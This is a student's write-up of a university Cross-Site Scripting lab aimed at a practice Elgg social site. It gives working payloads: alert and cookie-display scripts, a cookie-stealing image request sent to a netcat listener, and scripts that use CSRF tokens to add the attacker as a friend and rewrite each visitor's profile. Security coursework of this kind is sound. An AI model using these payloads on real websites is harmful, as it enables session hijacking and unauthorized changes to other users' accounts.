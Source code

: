 # CS 4173 Lab 5
#### Cross-Site Scripting Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Posting a Malicious Message to Display an Alert Window

In this task,verify that the system is indeed vulnerable to cross-site scripting attacks. An easy way to test this in general is to submit content with a `<script>` tag and see if something simple such as an alert box can be called. We post the following contents to Samy's profile:

```html
<script>alert('XSS');</script>
```

Upon visiting Samy's profile, the visitor now gets an alert box popup saying "XSS" which confirms that the system is susceptible to XSS attacks.

## Task 2: Posting a Malicious Message to Display Cookies

Now that we can use XSS on this system, we can now start attempting to grab private user data, in particular cookies. We can modify the script above to do so:

```html
<script>alert(document.cookie);</script>
```

## Task 3: Stealing Cookies from the Victim’s Machine

With the above method, we can alert the cookies to the user's screen, but the attacker is not yet able to view this information. In order to transfer this data to the attacker, they can use a malicioius HTTP GET request, for example with a fake image. We can append the information to this request which goes to the attacker's machine. In this example, we are using the localhost IP address since we are testing on the same machine:

```html
<script>document.write('<img src="http://127.0.0.1:5555?c=' + escape(document.cookie) + '>')</script>
```

Then, using the `netcat` utility, we can view the incoming GET requests from the attacker which will include the appended cookie data:

```
$ nc -l 5555 -v
```

## Task 4: Becoming the Victim’s Friend

For a cross-site scripting attack, the information may not need to be sent to the attacker, but can be used directly in the attacker's script as demonstrated in this task. By using cross-site scripting in this case, the attacker (Samy) can use a script to take the user's CSRF tokens and make a request to add himself as a friend:

```html
<script type="text/javascript">
    window.onload = function () {
        let xhr = null;

        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the HTTP request to add Samy as a friend.
        let sendurl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

        //Create and send xhr request to add friend
        xhr = new XMLHttpRequest();
        xhr.open("GET",sendurl,true);
        xhr.setRequestHeader("Host","www.xsslabelgg.com");
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.send();
    }
</script>
```

### Question 1

These two lines retrieve the tokens which are used to prevent CSRF attacks. In order to make a request, one must have the correct tokens or else the server will reject the request.

### Question 2

If the user can only use the rich text editor, they will not be able to insert malicious scripts into their profile. If we inspect the POST request, we can see that if we attempt to insert a script through the editor, characters such as the angle brackets are converted to their respective HTML entities like `&lt;` and `&gt;` for example. This prevents the HTML from parsing it as an HTML `script` tag and reading it as a regular string instead.

## Task 5: Modifying the Victim’s Profile

In addition to adding himself as a friend, Samy can also use cross-site scripting attack in order to modify a user's profile. Again, by taking the CSRF tokens and their guid, Samy can make a malicious POST request once he knows the structure of the request. This can be done by inspecting the contents of the request with HTTP Header Live. The following script will change the profile of anyone visiting Samy's profile to say "Samy is my hero":

```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
        //and Security Token __elgg_token
        let userName = elgg.session.user.name;
        let guid = "&guid="+elgg.session.user.guid;
        let ts = "&__elgg_ts="+elgg.security.token.__elgg_ts;
        let token = "__elgg_token="+elgg.security.token.__elgg_token;
        
        //Construct the content of your url.
        let sendurl = "http://www.xsslabelgg.com/action/profile/edit";
        let content = token + ts + "&description=Samy is my hero&accesslevel[description]=2" + guid;
        
        let samyGuid = 47;
        if(elgg.session.user.guid != samyGuid) {
            //Create and send xhr request to modify profile
            let xhr = null;
            xhr = new XMLHttpRequest();
            xhr.open("POST",sendurl,true);
            xhr.setRequestHeader("Host","www.xsslabelgg.com");
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send(content);
        }
    }
</script>
```

### Question 3

We need this line in order to make the attack successful since the page redirects to the user's profile after saving their profile. If we remove this line (or set it to `if (true)`), once Samy saves the malicious script, it will immediately send the POST request to change his own profile to say "Samy is my hero" and therefore when future visitors arrive at his profile, that is all they will see. Therefore, we first need to check if the user viewing the page is Samy himself; if so, the attack should not happen.